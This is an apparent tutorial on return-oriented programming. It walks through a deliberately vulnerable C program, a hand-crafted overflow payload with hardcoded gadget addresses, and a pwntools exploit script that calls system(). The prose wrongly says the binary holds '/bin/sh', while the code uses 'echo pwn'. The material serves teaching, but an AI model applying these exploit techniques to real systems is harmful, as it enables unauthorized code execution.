 # Introduction
Return-oriented programming is a set of techniques which allow code execution and bypass data execution prevention defences, such as NX, and code signing. ROP utilises *gadgets* in order to build chains and execute arbitrary instruction sequences.

Given control over the stack, an attacker may fill it with malicious return addresses, all pointing to the subsequent gadget in the ROP chain. When one gadget is executed, the `ret` instruction jumps to the address stored at the top of the stack and the stack pointer is incremented. Consequently, the stack pointer now points to the next malicious return address, forming a chain of gadgets.

## Gadgets
ROP gadgets are tiny instruction sequences which are already found in the target binary and end in a `ret` instruction. To manually find them within a binary, one might use a tool called `ROPgadget` with the following basic syntax:

`ROPgadget --binary [binary name]`

![](Resources/Images/ROP/ROP_ropgadget.png)

## Exploitation
```cpp
#include <stdio.h>
#include <stdlib.h>

void func()
{
	system("echo 'An inconspicuous echo...'");
}

void vuln()
{
	char input[20];
	fgets(input, 0x60, stdin);
}

int main()
{
	char* HarmlessString = "echo pwn";
	vuln();
	func();
	return 0;

}
```

We immediately notice a potential buffer overflow. Since `system` is called in the execution process of the binary, it will have a corresponding PLT entry. Furthermore, the string `"/bin/sh"` has been conveniently place in the binary - If we had the proper gadgets, we could string together a ROP chain, allowing us to execute `system("/bin/sh")`. Well, let's start digging.

Running ROPgadgets on the above binary reveals a way to write to `rdi`!
`0x000000000000126b : pop rdi ; ret`

Consequently, we can just write the address of the `"/bin/sh"` string in the binary, place it on the stack and, when the time comes, `rdi` will be populated with this address. All we will then need to do is return to the PLT entry of `system`, so that the function is invoked with the correct argument!

The addresses we need turn out to be:

`0x555555555040` - PLT entry of `system`
`0x55555555526b` - `pop rdi; ret` gadget
`0x555555556028` - `"/bin/sh"`
`0x5555555551ff` - the address we want to continue execution from once the ROP chain is finished

Knowing that we need exactly 40 character to overflow the return address of `vuln`, we get the following payload.

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6b\x52\x55\x55\x55\x55\x00\x00\x28\x60\x55\x55\x55\x55\x00\x00\x40\x50\x55\x55\x55\x55\x00\x00\xff\x51\x55\x55\x55\x55\x00\x00`

![](Resources/Images/ROP/ROP_manual.png)

Input file:

![](Resources/Images/ROP/ROP_manual_input.png)

And... exploit!

![](Resources/Images/ROP/ROP_manual_exp.png)

## Exploiting with pwntools
`pwntools` comes with tools for automating the process of finding gadgets and stringing them into chains for exploitation.

You will first need to load the ELF executable and specify its base address:
```python
elf = ELF('./rop')
elf.address = 0x555555554000
```

Subsequently, initialise a ROP object:
```python
rop = ROP(elf)
```
## Pwntools ROP commands
Get a dictionary of available gadgets:
```python
rop.gadgets
```

![](Resources/Images/ROP/ROP_pwn_gadgets.png)

Insert raw bytes into the chain:
```python
rop.raw(bytes)
```

![](Resources/Images/ROP/ROP_pwn_raw.png)

Call functions:
```python
rop.call(symbol, [arguments])
```

![](Resources/Images/ROP/ROP_pwn_call.png)

Get chain as bytes:
```python
rop.chain()
```

![](Resources/Images/ROP/ROP_pwn_chain_bytes.png)

### The Exploit
Using the above cheatsheet, we arrive at the following python script for exploitation:
```python
#!/usr/bin/python3

from pwn import *

context.clear(arch='amd64')
elf = ELF('./rop')
elf.address = 0x555555554000

rop = ROP(elf)
rop.call(elf.symbols['system'], [next(elf.search(b"echo pwn\x00"))])

prog = process('./rop')

payload = [b"A"*40, rop.chain()]
payload = b"".join(payload)

prog.sendline(payload)
prog.interactive()

```

![](Resources/Images/ROP/ROP_pwn_success.png)
